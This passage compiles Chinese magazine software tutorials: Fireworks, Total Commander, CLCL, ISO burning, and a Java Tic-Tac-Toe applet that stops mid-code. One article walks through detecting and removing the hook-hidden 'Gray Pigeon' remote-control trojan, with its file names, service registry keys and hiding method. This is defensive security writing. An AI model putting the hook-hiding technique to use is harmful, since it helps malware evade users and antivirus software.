选中前面制作的锯齿矩形，用同样的方法可以为矩形加上浮雕效果或其他的效果，不要害怕练习作品会被破坏掉，如果发觉效果不好，按下 Ctrl+Z 键进行恢复就可以了。

第七步：在 Fireworks 中很容易实现动画效果。导入一个 LOGO 图片，这里我导入的是 CFan 的 LOGO。将此 LOGO 放置到邮票的右下方，然后执行“修改→动画→选择动画”，在弹出的对话框中进行如图3所示的设置，单击“方向”按钮会出现一个可转动的圆盘，用鼠标拖动可调整动作的方向。在随后出现的“确定添加新帧”对话框中单击“确定”便完成动画的制作了，可以看到 LOGO 图像上

第八步：播放动画后，会发现除第一帧外，后面帧中的邮票背景图消失了。可在右侧的层面板中点选前面制作好的邮票背景层，然后单击层面板右上角的按钮，在弹出的菜单中选定“共享该层”命令，确定即可，再播放动画时邮票背景层就不会消失了。

小提示
在 Fireworks 中添加的动画默认是“永久循环”，如果仅仅需要它运行一次或几次，可执行“窗口→帧”命令调出“帧和历史记录”面板，点击“GIF动画循环”按钮（左下角第二个图标），然后选择自己需要的运行次数就可以了。

第九步：为了方便以后修改图形，一定要点击“文件→保存”保存好源文件（PNG 格式），接着使用“文件→导出向导”，根据屏幕提示，一步一步地将自己的动画邮票导出为动态 GIF 格式就可以了。

### 实例二：网页原来可以这样做

许多精彩的网页是可以用 Fireworks 直接制作出来的。下面我们就以制作一个简单的导航页面为例，体验一下 Fireworks 强劲的网页制作功能吧。如图4所示，是本例的最终效果截图，这只是一个简单的网页，主要演示了 Fireworks 中按钮及弹出式菜单的制作方法。

第一步：在 Fireworks 中点击“文件→新建”命令，建立一个 500 像素 × 400 像素的白色背景的画布。

第二步：点击工具箱“矢量”区中的直线工具，按住 Shift 键从左向右画出一条贯穿页面的直线，直线笔尖为 1，颜色为深黄。这条直线可以帮助我们将导航栏与页面主体部分分割开，使网页看起来层次分明，有条理。

第三步：接下来要制作直线上面的导航按钮。点击“编辑→插入→新建按钮”命令打开按钮编辑窗口，我们可以看到在 Fireworks 中按钮分为五种状态，实际上需要修改的分别为“释放”、“滑过”、“按下”三个状态，这里首先来定义“释放”状态，也就是这个按钮显示在网页时的开始状态。按住矩形工具右下角的小三角，从弹出子工具箱中点选圆角矩形工具，然后拖动鼠标在编辑窗口中间随便画出一个圆角矩形，选中此矩形，在其属性面板中将宽和高设为 85 像素 × 30 像素，颜色为米黄色实心（#FF9900），无笔触颜色，并点击“效果”标签右侧的“+”号选择“斜角和浮雕→内斜角”命令，斜角属性如图5右下角所示。最后选取工具箱中的文本工具，在按钮上输入“四季花卉”字样，字号为 16 号字体、隶书，颜色为红色，其他项默认即可。此时，按钮的“释放”状态就编辑完成了。

小提示
Fireworks 内置有许多按钮模板，在按钮编辑窗口中单击“导入按钮”，再双击选择某一按钮模板即可。

第四步：接下来点击“滑过”标签来编辑鼠标滑过时的按钮状态，直接点击“复制弹起时的图形”按钮便可将刚刚编辑完成的“释放”图形复制过来。我们可以不对它做修改，也可以修改一下按钮的颜色或内斜角的高度等。其他按钮状态以同样方法编辑即可，最后单击“完成”按钮关闭元件编辑窗口返回，刚才制作的按钮已经显示在主工作区上了，用指针工具将它拖放到第二步中制作的线条上方，然后按下 Ctrl+C 键复制按钮，再按 Ctrl+V 键粘贴，将新按钮拖放到适当的位置上，再在此按钮的属性面板中将它的“文本”设为“名花欣赏”，这个按钮上的文字也会随之改变。同样方法，复制修改出“栽培技术”、“花草与人”等按钮，并摆放到合适位置。

第五步：点选“四季花卉”按钮，执行“修改→弹出菜单→添加菜单”命令，在“弹出菜单编辑器”中双击“文本”标签下的文字输入框输入“春季花卉”，链接为“chun.html”，目标为“-Blank”，回车并依次输入“夏季花卉”、“秋季花卉”、“冬季花卉”并将它们的链接更改为合适的地址。

第六步：点击“继续”按钮在“外观”标签中进行设置，选择“单元格”为“图像”，菜单位置设为“水平菜单”，并在下面的“文本”和“样式”中选择文本的颜色和按钮背景的样式，最后点击“完成”按钮便轻松制作出漂亮的弹出式菜单了。

Just Do It
本例弹出菜单按钮所链接的网页文件是虚拟的，并不存在，单击按钮时什么也打不开。有兴趣的朋友可以自己制作出相应文件名的网页文件放到当前文件夹中，这个示例就完整了。

第七步：通过“文件→导入”命令选择导入一幅漂亮的冬梅图作为首页显示图形。我们还可以使用工具箱“Web”区中的热点工具为图片中的任意位置添加超级链接。选取矩形热点工具，在中间那朵最大的梅花上画一个矩形，然后在其属性面板的“链接”中输入链接地址，如“http://www.cfan.com.cn”，那么在最终生成网页后，我们单击梅花图案时就会转向《电脑爱好者》的网站了。

第八步：至此这张漂亮的带有时尚导航栏的网页便做好了，首先单击“文件→保存”命令保存好源文件，然后再执行“文件→导出”命令调出导出对话框，在“保存类型”中选择“HTML 和图像”，并勾选“将图像放入子文件夹”，单击“保存”按钮就可以了。

(河北 闫艳力)

## 又见Total Commander

Total Commander 6.5（以下简称TC）终于发布了！每一次新版的发布，就是TC fans的节日。每次急不可待地试用后，都会发现新的更多、更强大、更体贴的功能，从不落空。现在就让我们看看6.5版带给了我们什么……

注：本文介绍的TC版本为中文美化版，该版本已经完成了简体中文，同时还内置了四种皮肤，及多种插件，推荐所有喜欢TC或想使用TC的读者下载。下载地址：http://www.onlinedown.net/soft/17721.htm

### 1. TC 也能显示缩略图

这是“资源管理器”具有而TC一直缺少的功能，现在终于得以实现。

缩略图显示可以通过主菜单“查看→缩略图”调用，也可以右击标题行选择“缩略图”，还可以直接用快捷键 Ctrl + Shift + F1 切换（见图1）。



### 2. 全新的 WDX 插件

TC 6.5引入了全新的WDX插件技术。通过这种插件TC可以调用到文件更多的信息，如MP3文件的ID3标签，图片文件的Exif信息，文件属性、创建日期、文件版本等。通过对这些信息的调用，TC增加和扩充了不少更强大的功能，比如，针对某些信息进行搜索，批量改名，定制显示光标提示等等。

### 实战1：定制MP3文件的光标提示

- 第一步：调用菜单“选项→设置：显示”，打开“设置”窗口，确认已经勾选“Win32 风格的文件备注”。
- 第二步：点击右下角的“+”按钮，打开“按文件类型定义备注”窗口，选择“添加”，进入到“请指定文件类型”窗口，因为我们要定制MP3文件的光标提示，在这里就输入“*.mp3”，点击“确定”。
- 第三步：打开“按文件类型定义备注”窗口，点击右侧“+”号按钮，在AudioInfo和id3下都可以选择MP3的各种ID3信息。设置完成后，把光标放在MP3文件上，就可以看到显示信息的提示浮动窗了（见图2）。



### 实战2：根据ID3信息查找文件，比如要找王菲天空专辑的所有歌曲

- 第一步：进入要查找目录的窗口，按下Alt + F7打开“查找”窗口。
- 第二步：选择“插件”标签，勾选“在插件中搜索”项，在“插件”下拉菜单中选择id3，属性中选择Artist，“运算符”选择“包含”，在“值”项填入“王菲”（不含引号），这就定义了“查找王菲唱的歌”这条规则。
- 第三条：点击“增加规则”，同样在“插件”项选择id3，在“属性”项选择Album，“运算符”选择“包含”，在“值”项填入“天空”（不含引号），这条规则就定义好了（见图3）。
- 第四条：这两条规则必须同时满足，所以还必须选择“与（符合所有）”关系，这样整个查找条件就定义好了，按“开始搜索”查找即可。



### 实战3：定制一个显示MP3文件演唱者及专辑名的自定义列显示

实战分析：TC 6.5以前的版本在详细资料模式下只有名称、类型、大小、日期、属性这几个栏目，获得的文件信息有限。随着WDX插件的引入，现在可以根据这些信息来定制显示模式，以获取文件更多的信息。比如数码照片文件我们关心的是尺寸规格、光圈、曝光等，音乐文件则更关心播放时间、码率等，这样可以针对不同文件定制并且切换到不同的自定义列模式。

- 第一步：点击菜单“选项→设置：常规”，然后点击窗口左侧的“自定义列”项，再点击“新建”按钮，打开“自定义列”窗口。
- 第二步：在“名称”中输入Audio，点击“添加列”，在“列标题”中输入“MP3信息”，然后点击最右侧的“+”号按钮，选择id3下的Artist及Album，这样一个新的自定义列就定制完毕（见图4）。
- 第三步：选择菜单中的“查看→自定义列模式→Audio”，就可以显示自定义列菜单了，如果要恢复详细资料模式，则只要按Ctrl + F2即可。



### 3. 新的插件安装界面和方法

TC插件安装一直不太体贴，主要是安装界面比较难找，现在在“选项”里的“设置”窗口中新增了“插件”项（见图5），集中了四种插件的安装和管理，更加直观。
新版本也增加了插件自动安装功能，以后的插件会带一个pluginst.inf文件，当你打开一个插件压缩包时，会自动提示安装，只需修改默认安装路径或直接按回车，就自动安装好了。如果不希望出现安装提示，按Ctrl + PageDown进入压缩包即可。

### 4. 将TC装入闪存盘

以前版本的TC，虽然不会在系统目录里添加文件，但还是需要在注册表里写入几个键值。而TC 6.5增加了Wincmd.ini文件的一个参数UseIniInProgramDir，这个参数可以让TC成为真正的绿色软件。
这个参数只有在配置文件（Wincmd.ini、Wcx_ftp.ini）装在TC安装目录下才生效，该参数共有四个值：0（默认）、1（如果注册表或运行参数没有指定的话，就使用TC目录下的Wincmd.ini）、2（如果注册表或运行参数没有指定的话，就使用TC目录下的Wcx_ftp.ini）、4（不检查注册表信息），当然也可以是上面几个值之和。也就是说，如果把TC的两个配置文件放在TC目录下，并且在Wincmd.ini的[Configuration]字段下加上UseIniInProgramDir=7，TC就真正成为了绿色软件。

### 小提示

这样设置以后，TC本身运行完全没问题，但可能会影响一些要读取注册表的TC插件或第三方工具的运行。

### 5. 还有哪些令你心动的TC新功能

每一次TC新版本都带来了很多细小、体贴的新功能，这里列出一些笔者觉得相对比较常用、值得一提的功能，更全面和详细的信息请查阅History.txt和Help。
支持显示附加图标（比如快捷方式图标上有个小箭头，就是其中一种）；在路径栏按Shift点击路径的一部分会跳到相应的目录；在“查找”窗按Shift点击搜索结果或“输出到列表”按钮会打开一个新标签；批量更名工具的查找替换有了历史记录，而且可以多重查找替换，比如可以这样：11|22|33换成aa|bb|cc；批量更名工具做完一次更名后，按F5可以调出刚才的结果，继续做下一步更名；增加了一种标签锁定方式：允许锁定目录改变路径，按Ctrl + \返回原路径；在状态栏不仅显示选择的文件数，而且显示目录数；用F7可以一次建立多个目录，如填入dir1|dir2|dir3或C:\dir1|C:\dir2|C:\dir3；在同步窗口按Ctrl + F3直接进行文件比较；用Shift + F6更名时，再按F6或Shift + F6，可以切换是否选择文件扩展名；对于Windows NT/2000/XP，拷贝文件名的内部命令如cm_copynamestoclip等支持Unicode（以前拷贝中文文件名的文件需要打开中文输入法，否则乱码）。
（深圳 raymond）



## 让Real视频自动打开网页

如果你自己压缩了一段Real视频，也想实现在指定时间弹出网页的功能，同样可以用rmevents.exe命令来实现。

### 实战：以刚刚删除了剪辑信息的118.rmvb为例，让它在第3分钟及第8分钟打开http://www.cfan.com.cn。

- 第一步：用“记事本”打开刚刚建好的空白events.txt文件，输入如下内容，# # # # 为注释内容，不必输入。
  u 00:03:00.0 00:03:30.0 http://www.cfan.com.cn
  u 00:08:00.0 00:08:30.0 http://www.cfan.com.cn
  # # # # u表示打开后面的网址，其后面的00:03:00.0 00:03:30.0表示在第3分钟到第3分钟30秒中的任意时间都可以会打开http://www.cfan.com.cn，第二行的00:08:00.0 00:08:30.0也是相同原理 # # #
- 第二步：执行上文所制作的qu.bat，生成的118a.rmvb就是我们所要的视频媒体了。

（安安）

## 给Windows换个强力剪贴板

每天我们不知要反复进行多少次的复制和粘贴操作，但Windows的记忆力有限，它的剪贴板每次只能保存一次复制的内容，于是许多剪贴板增强工具便应运而生，今天我们介绍的CLCL虽然很“渺小”（只有235KB），也不用花钱，但功能却丝毫不输于那些收费的共享软件。

### CLCL小档案

- 软件版本：1.1
- 软件大小：235KB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://www.newhua.com/cfan/200505/clcl.rar

### 实例1：快速上手，给Windows长记性

运行软件后，在系统托盘内会出现其图标，以后只要按下Ctrl + C组合键复制文件、文字等，这些信息都会被CLCL所记录（默认记录30项）。以后在任何位置（比如各种文本编辑器等）只要按下Alt + C组合键即可弹出CLCL菜单，其中有剪贴板历史记录，选择一项后，即可完成粘贴操作（见图1）。



> Just Do It
> ★请复制一些文件，然后按下Alt + C组合键，你会发现CLCL居然能够记忆文件复制，这样你就能够轻松地实现将文件复制到多个位置这样复杂的操作了。
> ★按下PrintScreen按钮，接着再按Alt + C组合键，你会发现原来它还能充当兼职的抓图工具，并且能让你连续抓图，集中粘贴到一个文件中。

### 实例2：常用语两键输入

平时我们经常要重复输入一些语句，比如：自己的邮件地址、通讯地址、邮件签名等，现在利用CLCL提供的模板功能，你可以将常用语放置到模板中，以后在需要时直接按Alt + C组合键，选择“模板”项，在其后展开的子菜单中选择相应子项即可完成快速粘贴。

| 文件名 | 插件名称 | 功能 |
|--------|----------|------|
| tool_text.dll | 大写 | 将所选英文转换为大写字母 |
| tool_text.dll | 小写 | 将所选英文转换为小写字母 |
| tool_text.dll | 前缀 | 在所选行前加上指定前缀字符 |
| tool_text.dll | 取消前缀 | 取消每行前指定的前缀字符 |
| tool_text.dll | 自动换行 | 在指定位置添加硬回车，换行 |
| tool_text.dll | <&TAG><TAG> | 添加前缀及后缀 |
| tool_text.dll | 删除段落标记 | 将所有的硬回车删除 |
| tool_text.dll | 编辑 | 文字在进入剪贴板之前可以进行编辑 |
| tool_utl.dll | 清除历史 | 清除CLCL的历史记录 |
| tool_utl.dll | 清除剪贴板 | 清除剪贴板中的内容 |
| tool_utl.dll | 复制时发声 | 复制时有声音提示 |
| tool_utl.dll | 总在顶部 | CLCL窗口置顶 |
| tool_utl.dll | 取消置顶 | 取消CLCL窗口置顶 |
| tool_utl.dll | 保存更多条目 | 保存CLCL历史中的内容为文件 |

### 实例3：论坛贴图自动添加标识符

在网站上看到好的图片，要贴到论坛中，除复制图片地址外，还需要在地址的两边加上[img][/img]标识符。而利用CLCL插件中提供的自动标识功能可以让地址复制和标识添加一气呵成。

- 第一步：打开“CLCL－选项”窗口，点击“工具”选项卡下的“添加”按钮，打开“工具编辑”窗口。
- 第二步：点击DLL项下的“浏览”按钮，选择CLCL保存目录下tltx001子目录中的tool_text.dll，这时会弹出“选择工具”窗口，双击“<&TAG><TAG>”项，接着在“热键”处设置一个热键，如Ctrl + Shift + X，单击“确定”。
- 第三步：回到“工具”选项卡，选中刚刚添加的“<&TAG><TAG>”，然后单击“属性”按钮，在“开始字符”中输入“[img]”，在“结束字符”中输入“[/img]”。
- 第四步：以后在复制网址时，只要按下Ctrl + Shift + X，然后单击“确定”，这样就会自动添加好标识。

> 小提示
> CLCL的插件其实就是DLL文件，目前CLCL共有两个插件，除了上面用到的tltx001子目录中的tool_text.dll外，还有dtul001子目录下的tool_utl.dll。

### 实例4：打造N合一功能的超级菜单

在Windows任意位置（比如桌面、程序窗口、资源管理器等）按下Alt + C组合键后CLCL能够弹出其快捷菜单，如何能够武装一下这个菜单，让它具有更多功能呢？例如可以启动常用程序等。

- 第一步：打开“CLCL－选项”窗口，双击“动作”选项卡列表中的“菜单Alt + C”项打开其属性窗口。
- 第二步：首先在“菜单”列表中单击“（新内容）”项，接着在右侧窗格的“内容”下拉菜单中选择“分隔线”。
- 第三步：接着再次单击“菜单”列表中刚才创建的分隔线下的“（新内容）”，然后在右侧窗格的“内容”下拉菜单中选择“外部程序”，接着在“标题”文本框中输入“WinRAR”，在“路径”项后单击“…”按钮定位到WinRAR可执行文件（C:\Program Files\WinRAR\WinRAR.exe），在“图标路径”后单击“…”按钮，在打开的窗口中单击“浏览”按钮并定位到WinRAR.exe文件，这样程序图标便出现了，选择一个后单击“确定”按钮返回，再次单击“确定”按钮，添加完成。
- 第四步：按下Alt + C组合键，在CLCL的菜单中便会出现WinRAR项了。利用这个方法，你可以将自己经常使用的程序加进来，从而制作出超强的剪贴板程序启动菜单。

> Just Do It
> 制作一个单独的程序启动菜单，比如双击Alt键后即可弹出此菜单，在“动作”选项卡下的“添加”按钮，打开“动作编辑”窗口。在“动作”下拉菜单中选择“菜单”，在“呼叫类型”下选择“Alt + Alt”。

### 实例5：让CLCL认识更多格式

默认CLCL支持的格式有文本、图片及文件三种格式，通过插件，还可以让CLCL认识更多格式。
- 第一步：打开“CLCL－选项”窗口，点击“格式”选项卡下的“添加”按钮，打开“编辑剪贴板格式”窗口。
- 第二步：点击“浏览”窗口，选择CLCL所在目录下fmtmeta001子目录中的fmt_metafile.dll，“确定”后完成添加。
- 第三步：用第二步方法，添加CLCL所在目录下fmtrtf001子目录中的fmt_rtf.dll即可。这样CLCL就可以“认识”RTF及一些多媒体文件了。

## 如何将两个ISO刻到一张盘上

网上下载的很多软件都是ISO格式，但有些文件很小（比如只有300MB、200MB），如果将一个只有200MB的软件刻录到一张700MB的CD-R光盘上就太浪费了，如何将两个不足700MB（总和不大于700MB）的ISO文件中的内容刻到一张光盘上呢？如何在刻录ISO中文件的同时添加一些其他文件呢？其实只要有一个虚拟光驱软件，然后将ISO文件先虚拟为光盘，添加好文件后，再进行刻录即可。下面就以Alcohol 120%为例进行介绍。



- 第一步：打开Alcohol 120%，点击菜单中的“文件→选项”，在窗口左侧选择“虚拟驱动器”，在窗口右侧将“虚拟驱动器数目”改为2。
- 第二步：回到Alcohol 120%主窗口，将需要刻录的两个ISO文件添加到列表中，然后在镜像文件列表文件中右击，选择“载入设备”，再选择好一个虚拟光驱，用同样方法添加另一个ISO文件（见图）。
- 第三步：打开Nero（也可以直接使用Alcohol 120%），按平常刻录文件的方法，将两个虚拟光驱中的文件添加到Nero的刻录文件列表中，然后进行刻录即可。如果只有一个虚拟光驱中有文件，则可以另外再添加一些其他的文件，这样不至于浪费光盘。

> 小提示
> 有启动信息的光盘，最好使用UltraISO等光盘软件编辑好ISO文件，然后再按镜像刻录。

## 如何查杀隐形木马

注：本文仅在让大家了解安全工具的综合利用，请读者不要轻易运行病毒文件。

最近网上现身一种隐形木马，其中尤以灰鸽子新VIP版远程控制木马为甚。笔者二话不说，随即从朋友那里得到这传说中的“隐身灰鸽子”。

### 1. 什么是“隐形木马”？

随着国内网络环境的发展，蠕虫、木马已经变成网络安全主要的威胁，蠕虫如轰炸机，重在短时重击；木马如战斗机，重于长期偷袭。因此木马非常强调隐形性。木马随着系统、防毒软件及防火墙的升级，从简单的Windows 9x任务管理器不可见，及较早期的反防毒软件及防火墙功能，到现在在NT系统中任务管理器不可见的DLL进程插入木马等隐身方式。而现在，更出现了利用Hook（挂钩，一种编程技术）实现全面隐身的木马，也就是采用挂钩技术，在文件系统、进程、服务里都看不见文件的木马，比如在浏览文件时，需要系统调用文件浏览的API，这木马就挂钩这个API，使其调用结果中不包含木马文件本身。

### 2. 揭开“隐形木马”的秘密

本次测试环境为Windows XP SP2，当我双击种上此木马后，本人的“System Safety Monitor”（下载地址：http://www.newhua.com/cfan/200505/ssm.zip）马上报警，提示系统增加一项非授权“服务”（见图1）。



之后“System Safety Monitor”没有再报警，据此判断可能是可识别操作系统的木马，先例行检查一下注册表启动项，没有增加数据。由于已经知道是隐形木马，先根据报警查看系统目录，果然没有看到G_Server.exe这个木马文件（笔者已经在“文件夹选项”查看中开启“显示所有文件和受保护的系统文件”）。怎么办？先旁敲侧击一下，随手在系统目录新建一个文本文档，将其改名为G_Server.exe试探一下，系统马上报错，提示文件重名。看来木马已经出现了。

系统确实有这个木马文件，但你又看不到、找不到，该怎样处理呢？一般情况下，只需重启到安全模式，一切都会变得简单起来。但在本文，不讨论“安全模式”。既然是“隐形”，那要看看是怎样的隐形法，既然在Windows目录里隐形了，那么在DOS环境下呢？打开“命令提示符窗口”，输入命令“dir /a G_Server.exe”，嘿嘿，木马终于露出小尾巴了（见图2）。



再检查一下此木马在其他位置的隐形情况，打开服务（在“运行”中输入Services.msc），还真看不到任何新增的服务，但我们用新版本的HijackThis（下载地址：http://www.onlinedown.net/soft/37094.htm）扫描一下系统的服务，就能看到这个新增加的服务了（见图3）。


顺着思路，马上搜索注册表，可以在注册表直接看到这个由木马创建的“隐形”服务——GrayPigeonServer。在注册表的位置是[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\GrayPigeonServer]（见图4）。



另外也在[HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\GrayPigeonServer]找到另一个备份（备注：此类木马所产生的文件名及服务名均可事先自由设置，这里所列只针对本文例子，大家切勿断章取义，按图索骥查找相关的文件名或注册表）。

根据经验判断，这只木马应该是利用Hook隐身的。不论笔者在任意分区的任意文件夹内新建一个名字为G_Server.exe的文件，或将某个文件改名为G_Server.exe，当刷新后，以G_Server.exe命名的文件马上就会消失。笔者通过多个常见的防毒软件对带此文件的文件夹进行扫描，均不能报告发现这个G_Server.exe隐形文件，更不要说是查杀病毒了。看来，测试隐形木马的结果可以出来了：是利用“Hook”让Windows屏蔽显示某些关键的文件名，以达到在Windows隐身的目的，即在Windows正常模式下，你不能通过常规方式查找出此木马踪影；包括防毒软件也不能发现。

既然是利用“Hook”隐身的，还要查查到底有没有帮凶、同党。启用Advanced Process Manipulation（以下简称APM）（下载地址：http://www.diamondcs.com.au/downloads/apm.exe）工具软件后，终于发现了这个“Hook”了。这个Hook用DLL文件插入了笔者所有正在运行的进程当中，当笔者打开截图工具时，木马也一并插入了笔者的截图工具进程中（见图5）。



被插入的“Hook”是G_Server_Hook.DLL，文件名已经注明了自己的身份。再找找，APM里已经找不到可疑份子了。看来好像就这么两个文件了（G_Server.exe及G_Server_Hook.DLL），别急，让我再试试IceSword（下载地址：http://www.newhua.com/cfan/200505/icesword.rar）的威力，打开IceSword一看，在Windows下就显示出了三个木马文件（见图6）。



怎么会多出个G_Server.DLL？看来APM也是有局限。再用IceSword查查其他方面，先查查进程，难怪得没找到G_Server.DLL，原来这只“灰鸽子”不单在后台默默启动了IE的进程，还利用它的“Hook”隐藏了这个IE进程（见图7）。



这只“灰鸽子”还真不赖，还能隐藏了IE进程，笔者用其他常见的任务管理器都不能发现这个IE进程。既然是偷偷开启了IE的进程，肯定是想干坏事了。再查看一下这个IE进程的模块信息（右击进程，选择“模块信息”），原来G_Server.DLL隐身于此（见图8）。



这个G_Server.DLL肯定是通过捆绑IE进程，从而突破防火墙的。当然也要用IceSword检查系统服务，果然，IceSword把隐藏了的服务GrayPigeonServer也显示出来了（见图9），到此为止，这只新出炉能“隐形”的灰鸽子，在笔者使用多种工具之下，终于现出真身了。



### 3. 将“隐形木马”从系统中清除

所有数据都拿到了，测试也到此为止了，剩下的就是清理现场了——杀死这只“隐身”鸽子。这个任务就要轮到笔者此前汉化的KillBox出马了（关于KillBox的情况请参考《电脑爱好者》《新软物语》中的介绍）。打开KillBox，不要使用“浏览”（木马还是“隐形”的，KillBox“浏览”不到），直接填上木马文件的完整路径，如“H:\WINDOWS\G_Server.exe”。然后再使用KillBox替换文件的方法来清除G_Server_Hook.DLL，并按提示重启电脑即可。

重启后，马上转到系统目录，删除还残留下的G_Server.DLL和G_Server_Hook.DLL（此文件为替换后的文件）这两个文件，别担心，这些文件已经不起任何作用了，你想怎么删都行。最后一步当然还要清除病毒留下的尾巴——那个新增的木马服务，笔者是直接删除注册表内新增的那个服务（即图4所示位置）。

### 小提示

当然，你也可以不使用KillBox，只需在发现病毒时登陆到“安全模式”也可以直接删除这三个文件，在“安全模式”，你更可以近距离看到这只灰鸽子的“庐山真面目”。

> 小编有话说：看过这篇文章，也只是希望大家不要害怕木马、病毒，而文章中出现的软件，我们也会在未来进行较详细的介绍，在这里大家只要有一个初步的印象就可以了。

# Java咖啡馆(12)——Tic-Tac-Toe

爱情这游戏就像在玩 Tic-Tac-Toe，O个O×××谁先谁后谁爱谁的多；爱情这游戏就像在玩 Tic-Tac-Toe，O个O×××比来比去结果差不多……伴随着徐婕儿的歌声，本期咖啡馆又开张了，今天让我们以开发者的眼光来模拟一个 Tic-Tac-Toe 游戏！

# Tic-Tac-Toe 游戏

今天的主题是创作一个 Tic-Tac-Toe 游戏，又叫 Noughts and Crosses，俗称圆圈大叉。在一个井字形的棋盘上，游戏双方各执圆圈大叉轮流在井字的棋盘上下，谁能够在一个行、列、对角线上连通自己的棋子，便可以获得胜利。一般圆圈先下。图1 就是我们将要完成的游戏截图，电脑用右上角的大叉堵住了圆圈的连通趋势（见图1）。



这个游戏的基础仍然是 Applet，你可以随时通过浏览器访问网址 http://www.cfan.com.cn/11program/200505/index.htm 下载整个工程文件并且与电脑一决高下。

# 游戏基本框架

首先搭建游戏的框架。打开 Eclipse，新建一个 Java 项目，然后为项目添加一个 Class，名字就叫做 TicTacToe，注意在 SuperClass 栏中记得填入 java.applet.Applet，并且去掉 main()方法前面的勾。这个游戏首先需要圆圈和大叉的图片，文件名分别是 nought.gif 和 cross.gif，放在 image 目录中即可。现在让我们添加基本的代码。首先为 TicTacToe 类定义一些成员变量：

```
Java
/**
 * 给棋盘中的棋子赋值。
 */
int FREE = 0, NOUGHT = 1, CROSS = 4;

/**
 * 用长度为9的数组表示3*3的游戏棋盘。
 */
int board[] = new int[9];

/**
 * 分别表示圆圈和大叉的图片。
 */
private Image noughtImage, crossImage;

/**
 * 游戏是否已经结束的标志。
 */
boolean gameOver;

/**
 * 记录游戏结局的消息。
 */
String message;
```

然后增加 init()函数，在这里完成对两个图片的读取工作，并且把 Applet 的工作区域设置成 200 × 200 像素，如下：

```
Java
public void init() {
    noughtImage = getImage(getCodeBase(), "image/nought.gif");
    crossImage = getImage(getCodeBase(), "image/cross.gif");
    setSize(200, 200);
}
```

# Applet 事件处理

由于这个游戏需要与玩家交互，所以来了解一下 Applet 的事件处理(Event Handling)机制。

什么是事件呢？在图形界面中，鼠标操作、键盘操作、组件焦点的移动等都是事件。下面让我们看看 Java 是如何处理它们的。

目前，Java 拥有两个版本的事件处理模型——Java 1.0 和 Java 1.1。在 Java 1.0 事件处理模型中，一个消息将会遍历 Applet 上的每个组件，由组件自己测试这个消息是否需要响应，然后进行相应的处理。由于每个组件都要测试可能与自己无关的每个消息，效率之低可想而知。Sun 在设计 Java 1.1 事件处理模型时引入了全新的代理模型，所有的消息将集中发给核心的消息代理，然后由代理将特定的消息发送给那些实现了特定消息接收器的组件。嗯，中央集权的办事效率显然非常高。此外，Java 1.1 事件处理模型还是 Sun 推荐的 Java Foundation Class 的组成部分，与时俱进，所以我们仅仅讨论 Java 1.1 事件处理模型。

### 1. 事件对象(Event Object)

不同的事件是由不同的 Java 事件对象表示的，它们都是从 java.util.EventObject 继承而来的，但各自都加入一些特殊的元素方便操作。比如 MouseEvent 代表鼠标消息，你能够通过 getX()、getY() 来获取鼠标点击的坐标。

### 2. 事件接收器(Event Listeners)

顾名思义，事件接收器是用来接收制定事件的，从而不难想像，针对每个事件对象通常都有一个相应的事件接收器，比如上面提到的 MouseEvent 就有对应的 MouseListener，如果你想接收鼠标事件，只需声明你的类实现 MouseListener 接口，并且在必须实现的函数内写入处理代码即可。

### 3. 事件源(Event Source)

事件源可以维护多个事件接收器，当事件发生时，事件源负责把事件传递给列表中每个事件接收器，从而触发事件接收器的行动。

# 游戏互动

在这个简单的 Applet 游戏中，Applet 本身，也就是 TicTacToe 类，显然就是我们的事件源。我们需要让玩家通过鼠标与游戏互动，所以应该给 TicTacToe 类加入一个鼠标事件接收器，而最方便的做法就是直接让 TicTacToe 类本身成为事件接收器。

当你在 TicTacToe 类定义后面加入 implements MouseListener 后，Eclipse 会立即抱怨找不到这个接口……无所谓，把光标移到 MouseListener 上按下 Ctrl+Shift+M 快捷键加入对 MouseListener 的 import。Eclipse 贪心不足，又继续抱怨必须实现继承下来的虚拟方法某些。无奈，把鼠标移到前面报错的灯泡这里，然后选择 “Add unimplemented methods”(见图2)。


这时 Eclipse 才心满意足地恢复平静了。现在我们便可以在 init() 方法中加入 addMouseListener(this);表示对本身这个事件接收器进行负责。同时，也不要忘记在 destroy()方法中加入 removeMouseListener(this);来及时释放资源。

在正式编写鼠标消息的处理代码前，我们首先需要一个判断圆圈或者大叉是否已经获胜的函数。这个函数很容易，只要依次判断在三行、三列、两对角线上是否同时有三个圆圈或者大叉。所以新增代码如下：

```
Java
/**
 * 测试是否已经达到联通了。
 * @param value 代表 O 或者 X
 * @return true 如果成功，false 反之
 */
public boolean won(int[] board, int value) {
    // 依次计算每行、每列以及两个对角线
    for (int i = 0; i < lines.length; i++) {
        int[] line = lines[i];
        int sum = 0;
        for (int j = 0; j < line.length; j++) {
            int k = line[j];
            sum = sum + board[k];
        }
        // 如果这个直线上三个元素之和等于值的三倍，显然就是联通的
        if (sum == 3 * value) {
            return true;
        }
    }
    // 如果没有一个联通，则这个值在棋盘上没有获胜
    return false;
}
```

OK，万事俱备，现在终于可以在 mouseReleased()方法中加入游戏逻辑了，代码如下：

```
Java
public void mouseReleased(MouseEvent e) {
    if (true == gameOver) {
        // 然后进行初始化
        gameOver = false;
        for (int i = 0; i < 9; i++) {
            board[i] = 0;
        }
    } else {
        // 计算玩家鼠标点击的位置
        Dimension d = getSize();
        int col = (e.getX() * 3) / d.width;
        int row = (e.getY() * 3) / d.height;
        int pos = row * 3 + col;
        // 只能够点击的未被占用的格子
        if (board[pos] == FREE) {
            board[pos] = NOUGHT;
        }
        // 测试执圈玩家是否已经取得胜利
        if (won(board, NOUGHT) == true) {
            message = "恭喜，你赢啦！";
            gameOver = true;
        } else {
            // 否则让计算机下一步并且测试结果
            amateur();
            if (won(board, CROSS) == true) {
                message = "哈哈，你输啦！";
                gameOver = true;
            }
        }
    }
    repaint();
}
```

现在，当你点击棋盘时，便会触发这个mouseReleased()方法，并且执行其中的代码了。为了显示游戏结果，还需要在paint()方法的最后添上这段代码：

```
Java
if (true == gameOver) {
    // 若游戏结束，则绘制结局信息
}
```

最后增加 paint()函数，画出井字的棋盘，并且根据 board 变量里面的值确定该格现实圆圈还是大叉：

```
Java
public void paint(Graphics g) {
    // 根据当前信息绘制游戏界面
    Dimension d = getSize();
    int xoff = d.width / 3;
    int yoff = d.height / 3;
    g.setColor(Color.black);
    g.drawLine(xoff, 0, xoff, d.height);
    g.drawLine(2 * xoff, 0, 2 * xoff, d.height);
    g.drawLine(0, yoff, d.width, yoff);
    g.drawLine(0, 2 * yoff, d.width, 2 * yoff);
